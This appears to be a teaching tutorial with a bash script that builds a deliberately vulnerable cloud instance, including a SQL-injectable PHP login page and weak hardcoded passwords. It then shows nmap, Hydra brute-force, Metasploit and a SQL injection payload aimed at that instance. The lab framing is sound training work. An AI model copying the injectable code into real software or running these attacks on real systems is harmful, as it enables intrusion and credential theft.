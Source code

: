An advanced setup script for a **Cloud Instance** that will deploy a vulnerable environment specifically designed for demonstrating ethical hacking tools. This setup will guide you through creating another Google Cloud instance and trying tools like **Nmap**, **Metasploit**, **Burp Suite**, and **Hydra** against realistic scenarios.

---

### **Script to Create a Vulnerable Instance for Ethical Hacking Tool Demonstration**

Save this script as `setup_tool_demo_instance.sh` and execute it on your primary Google Cloud instance.

```bash
#!/bin/bash

# Create a secondary instance for vulnerability demonstration
INSTANCE_NAME="vulnerable-instance"
ZONE="us-central1-a"
MACHINE_TYPE="e2-medium"

echo "Creating a secondary instance ($INSTANCE_NAME)..."
gcloud compute instances create $INSTANCE_NAME \
    --zone=$ZONE \
    --machine-type=$MACHINE_TYPE \
    --image-family=debian-11 \
    --image-project=debian-cloud \
    --boot-disk-size=20GB \
    --tags=vulnerable-server \
    --metadata=startup-script='#!/bin/bash
sudo apt update && sudo apt install -y apache2 php php-mysqli mariadb-server mariadb-client nmap hydra metasploit-framework
sudo systemctl start apache2
sudo systemctl enable apache2
sudo mysql -e "CREATE DATABASE vulnerable_tools;"
sudo mysql -e "CREATE USER '\''vuln_user'\''@'\''localhost'\'' IDENTIFIED BY '\''tool123'\'';"
sudo mysql -e "GRANT ALL PRIVILEGES ON vulnerable_tools.* TO '\''vuln_user'\''@'\''localhost'\'';"
sudo mysql -e "FLUSH PRIVILEGES;"
sudo mysql -e "
USE vulnerable_tools;
CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(50) NOT NULL,
    password VARCHAR(255) NOT NULL
);
INSERT INTO users (username, password) VALUES 
('\''admin'\'', '\''password123'\''), 
('\''testuser'\'', '\''testpass'\'');
";
echo "<?php
\$conn = new mysqli('localhost', 'vuln_user', 'tool123', 'vulnerable_tools');
if (\$conn->connect_error) { die('Connection failed: ' . \$conn->connect_error); }
if (\$_SERVER['REQUEST_METHOD'] === 'POST') {
    \$username = \$_POST['username'];
    \$password = \$_POST['password'];
    \$query = \"SELECT * FROM users WHERE username = '\$username' AND password = '\$password'\";
    \$result = \$conn->query(\$query);
    if (\$result->num_rows > 0) { echo '<h1>Login Successful</h1>'; }
    else { echo '<h1>Login Failed</h1>'; }
}
?>
<form method='POST'>
    <label>Username:</label><br>
    <input type='text' name='username'><br>
    <label>Password:</label><br>
    <input type='password' name='password'><br>
    <button type='submit'>Login</button>
</form>" > /var/www/html/login.php
sudo systemctl restart apache2'

echo "Instance created successfully. Access it via external IP once it's ready."
```

---

### **Ethical Hacking Tools to Demonstrate**

#### **1. Nmap**
- **Purpose**: Network scanning to detect open ports and services.
- **Demonstration**:
  - Scan the secondary instance's IP for open ports and services.
    ```bash
    nmap -A <secondary-instance-ip>
    ```
  - Observe the open ports (e.g., 80 for HTTP) and services running.

#### **2. Hydra**
- **Purpose**: Brute-force password attacks on services like SSH or HTTP.
- **Demonstration**:
  - Use Hydra to test the login page of the secondary instance.
    ```bash
    hydra -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"
    ```
  - Observe how Hydra attempts different password combinations.

#### **3. Metasploit**
- **Purpose**: Exploitation framework for discovering and exploiting vulnerabilities.
- **Demonstration**:
  - Exploit an outdated Apache or PHP version on the vulnerable instance.
    ```bash
    msfconsole
    use exploit/multi/http/php_cgi_arg_injection
    set RHOST <secondary-instance-ip>
    set TARGETURI /login.php
    run
    ```
  - Demonstrate shell access or data extraction.

#### **4. Burp Suite**
- **Purpose**: Web application testing for vulnerabilities like XSS, SQL Injection.
- **Demonstration**:
  - Intercept requests to `/login.php` and modify parameters to inject SQL payloads:
    ```
    Username: ' OR '1'='1
    Password: any
    ```
  - Observe how the application responds.

---

### **Demonstration Instructions**

1. **Setup**:
   - Run the `setup_tool_demo_instance.sh` script to create a vulnerable instance.
   - Access the external IP of the secondary instance for testing.

2. **Demonstration**:
   - Begin by explaining the purpose and functionality of each tool.
   - Use each tool against the vulnerabilities on the secondary instance.
   - Show the results and how these tools can exploit misconfigured systems.

3. **Report Writing**:
   - **Introduction**: Brief overview of the tools demonstrated.
   - **Procedure**: Detailed step-by-step for each tool (e.g., commands used).
   - **Observations**: Screenshots of successful scans, attacks, or exploitation.
   - **Recommendations**:
     - Regular patching and updates.
     - Using strong, unique passwords.
     - Configuring firewalls to restrict unnecessary ports.
   - **Conclusion**: Summarize the importance of ethical hacking in securing systems.

---

### **Real-Life Challenge Integration**
1. **Simulate Additional Vulnerabilities**:
   - Modify the PHP login form to include blind SQL injection points.
   - Introduce outdated software versions in the secondary instance.
2. **Advanced Demonstration Scenarios**:
   - Use Burp Suite to craft CSRF attacks on login sessions.
   - Leverage Metasploit for remote code execution.

---

### **Key Takeaways for Students**
1. **Real-World Relevance**: Understand how attackers use tools in live environments.
2. **Defense Strategies**: Learn how to mitigate vulnerabilities identified by these tools.
3. **Practical Knowledge**: Gain hands-on experience with professional tools.

This advanced setup will challenge students with realistic scenarios while providing them with the tools and knowledge to secure systems effectively.